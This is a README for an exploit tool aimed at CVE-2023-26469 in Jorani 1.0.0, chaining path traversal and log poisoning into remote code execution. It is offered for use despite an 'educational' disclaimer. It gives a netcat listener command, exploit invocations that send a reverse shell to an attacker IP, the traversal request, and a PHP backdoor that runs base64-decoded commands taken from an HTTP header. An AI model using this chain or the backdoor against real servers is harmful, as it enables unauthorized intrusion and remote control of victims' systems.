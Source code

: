 # Jorani 1.0.0 Exploit (CVE-2023-26469)

**Unrestricted File Upload → Remote Code Execution Exploit**

[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
[![Python 3.8+](https://img.shields.io/badge/Python-3.8%2B-blue.svg)](https://www.python.org/downloads/)

**Disclaimer**: This tool is for educational and authorized testing purposes only. Misuse of this software is prohibited. The developers assume no liability for damage caused through improper use.

## Table of Contents
- [Description](#description)
- [Vulnerable Versions](#vulnerable-versions)
- [Installation](#installation)
- [Usage](#usage)
- [Technical Details](#technical-details)
- [References](#references)

## Description
This exploit targets a critical vulnerability chain in Jorani v1.0.0 that combines:
1. **Path Traversal** in language parameter
2. **Unrestricted File Upload** leading to Remote Code Execution

The exploit works by poisoning application logs with PHP code and triggering execution through manipulated HTTP headers.

**Credits**:
- Original vulnerability discovery: [@jrjgjk (Guilhem RIOUX)](https://github.com/jrjgjk)
- Exploit adaptation: Samip Mainali

## Vulnerable Versions
Confirmed vulnerable version:
- **Jorani 1.0.0**

Other potentially affected versions (untested):
- Tested on Version 1.0.0 (based on CVE-2023-26469 details)

## Installation
1. Clone repository:
bash
git clone https://github.com/<your-username>/jorani-exploit.git
cd jorani-exploit

Requirements:

Python 3.8+
Requests library
Usage

Start netcat listener:
bash
Copy
nc -lvnp 4444
Run exploit:
bash
Copy
python3 exploit.py -u http://target:port -i YOUR_IP -p LISTENER_PORT
Example:

bash
Copy
python3 exploit.py -u http://192.168.1.100:8080 -i 10.10.14.5 -p 4444
Features:

Automatic protocol detection (HTTP/HTTPS)
Randomized header injection
Connection stability checks
Detailed error diagnostics
Troubleshooting:

If connection fails, verify:
Target URL accessibility
Listener configuration
Firewall rules
Protocol compatibility (HTTP vs HTTPS)
Technical Details

Vulnerability Chain

Log Poisoning:
Path traversal in language parameter allows writing PHP files to log directory
http
Copy
POST /session/login HTTP/1.1
language=../../application/logs
Header-Based Code Execution:
php
Copy
```<?php 
if(isset($_SERVER["HTTP_X_CUSTOM_HEADER"])){
    system(base64_decode($_SERVER["HTTP_X_CUSTOM_HEADER"]));
}
```
Exploit Workflow

CSRF token extraction
Log file poisoning with PHP backdoor
Reverse shell triggering via custom header
Connection stability verification
Key Features

Randomized HTTP header names for each execution
Automatic protocol detection and validation
Connection timeout handling
Color-coded status output
References

CVE-2023-26469 Advisory
Original Research by Guilhem RIOUX

Legal Notice
This software is provided "as-is" without any warranty. Users are solely responsible for ensuring they have proper authorization to test systems using this tool. The developers disclaim all liability for unauthorized or malicious use.
